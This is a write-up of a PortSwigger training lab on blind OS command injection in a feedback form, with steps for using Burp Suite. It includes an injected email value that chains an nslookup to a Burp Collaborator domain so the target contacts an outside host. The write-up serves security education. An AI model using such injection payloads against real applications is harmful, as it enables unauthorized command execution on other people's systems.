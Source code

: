 # Blind OS command injection with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that is accessible. However, it is possible to trigger out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=x||nslookup+x.burp-collab-subdomain||`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

## Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _
